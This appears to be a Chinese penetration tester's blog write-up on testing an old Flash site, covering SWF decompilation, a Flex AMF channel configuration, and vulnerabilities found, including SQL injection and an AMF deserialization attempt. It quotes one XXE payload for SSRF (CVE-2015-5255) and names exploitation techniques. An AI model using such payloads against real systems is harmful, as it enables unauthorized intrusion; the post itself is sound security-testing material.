- 乌云老文章：[AMF解析遇上XXE，BurpSuite也躺枪](https://wooyun.js.org/drops/AMF解析遇上XXE，BurpSuite也躺枪.html)

- [CVE-2015-3269: Apache Flex BlazeDS XXE Vulnerabilty](https://codewhitesec.blogspot.com/2015/08/cve-2015-3269-apache-flex-blazeds-xxe.html)

#### SSRF(CVE-2015-5255)

```
&lt;!DOCTYPE foo PUBLIC &#34;-//VSR//PENTEST//EN&#34;
&#34;http://49.x.y.z:8888/protected-service&#34;&gt;&lt;foo&gt;Some content&lt;/foo&gt;
```


## 我的测试日记

在2025年8月的平凡一天，去客户现场进行渗透测试，遇到了一个Flash网站，我打算在这部分说下我遇到的问题及解决方案。

测试环境

1. 内网环境测试系统
2. 测试机为Windows，2021版Burp

### Flash功能

打开网站，遇到的第一个问题是能打开测试系统，但是功能访问异常，很多功能点击后都是一块白屏，抓包发现网站会下载swf文件。这种情况下，测试肯定是不全面的，因此最好还是能正常访问测试系统的所有功能。

我意识到这是一个Flash网站，功能异常的原因是当前浏览器（用的Burp自带的浏览器）不支持Flash。

接下去尝试更好浏览器，第一反应是用IE，调用IE打开的是Edge（被集成了），但是也不支持Flash；Chrome、Firefox都试了，当前系统的版本都不支持Flash。

网上找解决方法，以下是用到的一些工具和坑

- [可能是2025年依然能在浏览器中使用Flash的多种方法](https://www.bilibili.com/opus/651094862871920662) ，尝试了其提到的方法
  - [CefFlashBrowser](https://github.com/Mzying2001/CefFlashBrowser/)，评价：能运行Flash，但是有Bug，遇到下载功能会崩溃
  - [chrome53](https://huanmvp.lanzouv.com/ii0ch0blxyqb)，评价：挺好用的，没发现问题
  - 安装Flash Player，并使用支持Flash的浏览器：这个方案我起初是拒绝的，因为不想要安装太多乱七八糟的东西，Flash Player在我这的印象不是很好。但是后面为了测试SWF，还是用到了。

解决了Flash功能的正常访问，那就可以正常测试下去了。

### 正常测试

接下去就是正常测试了，我注意到了网站会下载SWF文件，以及调用 amf 接口进行序列化数据的传输，关于这两部分都是值得探索的测试点。但由于时间有限，要优先完成测试，于是我计划先测普通的功能点，在舒适区内先产出，之后再对这两者进行测试。

在这部分，我就提一嘴发现的漏洞有：登录过程的用户名、密码枚举，弱口令用户，功能点未授权访问、越权访问，任意文件下载，SQL注入。

- 其中就SQL注入值得说一下，它是来自一个隐藏挺深的功能点，访问该功能点后会有wsdl文档，解析该文档找到一个查询接口，在该接口中存在注入点，通过oracle报错注入拿下。

测试的差不多了，虽然产出也不错了，但是还是忘不了 SWF文件和 AMF接口的二进制数据，接下去就是去研究那两个了。

### SWF

具体的研究结果就体现在上面的文章中了，只不过当时时间有限，了解的没文章中那么具体，也踩了很多坑。

我批量下载了SWF文件，并通过 ffdec 进行了反编译，之后将数据全部复制到一个目录中。

接下去考虑是否像看过的很多文章一样去挖XSS，但是我放弃了，因为太费时费力了，时间不够，对 actionScript又不了解，放弃了这条路。

之后我对这些SWF文件进行敏感数据挖掘，说白了就是用自己的工具扫了遍文件，期望找到些敏感信息，可惜没达到预期。

没找到很满意的敏感信息，在一个as文件中找到了几个接口

```xml
	&lt;channels&gt;
		&lt;channel id=&#34;my-http&#34; type=&#34;mx.messaging.channels.HTTPChannel&#34;&gt;
			&lt;endpoint uri=&#34;http://{server.name}:{server.port}/AtomLocal/messagebroker/http&#34;/&gt;
			&lt;properties&gt;
			&lt;/properties&gt;
		&lt;/channel&gt;
		&lt;channel id=&#34;my-polling-amf&#34; type=&#34;mx.messaging.channels.AMFChannel&#34;&gt;
			&lt;endpoint uri=&#34;http://{server.name}:{server.port}/AtomLocal/messagebroker/amfpolling&#34;/&gt;
			&lt;properties&gt;
				&lt;polling-enabled&gt;true&lt;/polling-enabled&gt;
				&lt;polling-interval-seconds&gt;1&lt;/polling-interval-seconds&gt;
			&lt;/properties&gt;
		&lt;/channel&gt;
		&lt;channel id=&#34;my-amf&#34; type=&#34;mx.messaging.channels.AMFChannel&#34;&gt;
			&lt;endpoint uri=&#34;http://{server.name}:{server.port}/AtomLocal/messagebroker/amf&#34;/&gt;
			&lt;properties&gt;
				&lt;polling-enabled&gt;false&lt;/polling-enabled&gt;
			&lt;/properties&gt;
		&lt;/channel&gt;
		&lt;channel id=&#34;my-streaming-amf&#34; type=&#34;mx.messaging.channels.StreamingAMFChannel&#34;&gt;
			&lt;endpoint uri=&#34;http://{server.name}:{server.port}/AtomLocal/messagebroker/streamingamf&#34;/&gt;
			&lt;properties&gt;
			&lt;/properties&gt;
		&lt;/channel&gt;
```

其他几个都是跟amf有关的，一个跟http相关的接口。

&gt; 这其实是一个  Flex 框架中用于配置消息传递通道的 服务配置 XML，它定义了一个 AMF（Action Message Format）协议的通信通道，用于 Flex 客户端与服务器之间的远程数据交互。

当时没研究那么多，就对HTTP接口进行测试，服务端返回了报错的xml。

尝试构造xml，xxe进行攻击HTTP接口，最终失败了，没收获。

事后查了一下，这其实是 Flex框架的配置文件，具体解释如下：

&gt; 1. **`&lt;channel id=&#34;my-amf&#34; type=&#34;mx.messaging.channels.AMFChannel&#34;&gt;`**
&gt;    - `id=&#34;my-amf&#34;`：给通道定义唯一标识（`my-amf`），方便在 Flex 客户端代码中引用（如指定远程调用使用该通道）。
&gt;    - `type=&#34;mx.messaging.channels.AMFChannel&#34;`：指定通道类型为`AMFChannel`，这是 Flex 中基于 AMF 协议的通信通道类，用于高效序列化 / 反序列化 ActionScript 对象与服务器端数据（通常对应 Java 的 BlazeDS 或 LCDS 框架）。
&gt; 2. **`&lt;endpoint uri=&#34;http://{server.name}:{server.port}/AtomLocal/messagebroker/amf&#34;/&gt;`**
&gt;    - 定义服务器端的消息代理（Message Broker）端点 URL，Flex 客户端将通过这个 URL 与服务器建立通信。
&gt;    - `{server.name}`和`{server.port}`是占位符，运行时会被替换为实际的服务器域名 / IP 和端口。
&gt;    - `/AtomLocal/messagebroker/amf`是服务器端消息代理的路径，对应 BlazeDS/LCDS 框架中处理 AMF 请求的 Servlet 映射。
&gt; 3. **`&lt;properties&gt;&lt;polling-enabled&gt;false&lt;/polling-enabled&gt;&lt;/properties&gt;`**
&gt;    - `properties` 为配置通道的附加属性：
&gt;    - `polling-enabled`设为`false`，表示禁用客户端主动轮询（Polling）机制。AMFChannel 默认支持 “长轮询” 或 “实时推送”，禁用后通常依赖服务器主动推送（如使用 RTMP 通道）或客户端按需发起请求。


### AMF

接下去研究 amf 接口

最终用了上文提到的那几款工具，因为没达到预期效果，总是会有解码不了的场景，因此这几款工具我都试了，最后由于时间紧迫，将就用了。

成功对 AMF 接口序列化数据进行解码后，我发现了 未授权执行任意SQL语句、反序列化 漏洞，不过CVE-2017-3066的反序列化最终没有打成功，收到RMI回连了，但是没执行命令。因为时间关系也没法继续研究了。

### 事后

事后我总结了这次测试记录，形成了这篇文章。

在整理的过程中，又阅读了很多文章，对相关内容有了更多的了解。

对这次没能测试到的很多漏洞，感觉有点遗憾。

这篇文章其实也写的比较匆忙，因为不想为这个过时的技术花费太多时间，感觉性价比较低，但有时又在想是不是应该再深入一下，总是会纠结。

匆匆忙忙，总在跟时间赛跑，好像被什么东西追赶着，我还有一大堆的ToDo List，人说选择很重要，要学会拿起更要学会放下，就这样吧，不多说了。

------

也许还没完，我刚刷到一篇文章，是一个2024年，较新漏洞的分析：

- [SolarWinds Security Event Manager AMF 反序列化 RCE (CVE-2024-0692)](https://xz.aliyun.com/news/13481)

后续可能就不是针对Flash测试的文章，会针对 AMF 反序列化这系列漏洞进行分析学习。（*又是新坑，ToDoList又增加了。。。咕咕咕🕊*）

有兴趣的朋友也可以一起研究下，我给一些参考文章：

- [浅说AMF反序列化及利用链构造](https://cn-sec.com/archives/2323918.html)
- [Java AMF3反序列化漏洞](https://www.liuhaihua.cn/archives/642555.html)


## 参考文献
- [全面认识Flash技术](https://developer.aliyun.com/article/408379)
- [探寻Flash SWF中的漏洞](https://xz.aliyun.com/news/3051) 先知，翻译，原文：http://10degres.net/testing-flash-swf/
- [Analysing SWF files for vulnerabilities](https://ret2libc.wordpress.com/2016/04/04/analysing-swf-files-for-vulnerabilities/)
- [Finding vulnerabilities in SWF files (v2.0)](http://media.wix.com/ugd/533dd4_c096c1fa67814318acb84d41a04fb258.pdf)
- [一次 SWF XSS 挖掘和利用](https://cn-sec.com/archives/321701.html)， 乌云 drops
- [浅析同源方式执行（SOME）攻击](https://www.freebuf.com/articles/web/169873.html)
- [Actionscript 3.0 – Flash Security Sandbox](https://www.designswan.com/archives/actionscript-30-flashs-security-sandbox.html)： 英文原文
- [Testing for Cross Site Flashing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/08-Testing_for_Cross_Site_Flashing)  
- [Analysing SWF files for vulnerabilities](https://ret2libc.wordpress.com/2016/04/04/analysing-swf-files-for-vulnerabilities/)
- [谈谈AMF网站的渗透测试](https://xz.aliyun.com/news/7994)
- [CVE-2017-3066: Adobe ColdFusion Deserialization Vulnerability](https://www.keysight.com/blogs/en/tech/nwvs/2025/03/18/cve-2017-3066)
## 文件属性

创建时间：2025-08-16   13:33

修订记录：
- 2025-08-16 ，此次修订内容| 新建
- 2025-08-19 ，此次修订内容| 完成1.0版
- 2025-08-25 ，补充swfscan工具和截图| 完成2.0版

备注：
老技术，收藏夹吃灰就行

---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/case-flash_swf_amf_test/  

